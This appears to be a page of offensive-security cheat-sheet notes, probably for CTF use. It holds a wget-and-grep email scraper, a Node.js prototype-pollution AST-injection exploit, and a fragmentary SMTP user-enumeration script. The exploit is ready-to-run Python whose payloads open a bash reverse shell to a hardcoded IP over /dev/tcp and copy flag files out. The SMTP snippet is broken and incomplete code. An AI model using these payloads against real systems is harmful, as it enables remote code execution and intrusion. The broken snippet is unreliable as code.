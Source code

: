 ### Recursive wget 
```shell
wget -r --level=1 -p http://<website> 
find . -name "*" -exec cat {} \; | grep "@email.com" # find strings in downloaded sites
```

### Protoype pollution AST injection
- [Nodejs AST injection](https://blog.p6.is/AST-Injection/)

```python
import requests

TARGET_URL = 'http://10.10.12.14:8713'

r1 = requests.post(TARGET_URL + '/submit', json = {
    "__proto__.type": "Program",
    "__proto__.body": [{
        "type": "MustacheStatement",
        "path": 0,
        "params": [{
            "type": "NumberLiteral",
            "value": "process.mainModule.require('child_process').execSync(`bash -c 'bash -i >& /dev/tcp/10.10.12.14/6666 0>&1'`)"
        }],
        "loc": {
            "start": 0,
            "end": 0
        }
    }]
})

print(r1._content)


r2 = requests.post(TARGET_URL + '/submit', json = {
    "__proto__.block": {
        "type": "Text", 
        "line": "process.mainModule.require('child_process').execSync(`cat flag* >> ./static/file.txt`)"
    }
})

print(r2._content)
```

### Basic SMTP enum (Python)

```python
import socket
f = open("userlist", "r")
users = f.readlines()

for user in users:
    s = socket.socket(socket.AFINTE)

    s.connect(("mail.baldrinc.com", 25))
    s.recv(1024)
    s.send("HELO")
    #...
    
# 546d467562334a356558493d
```
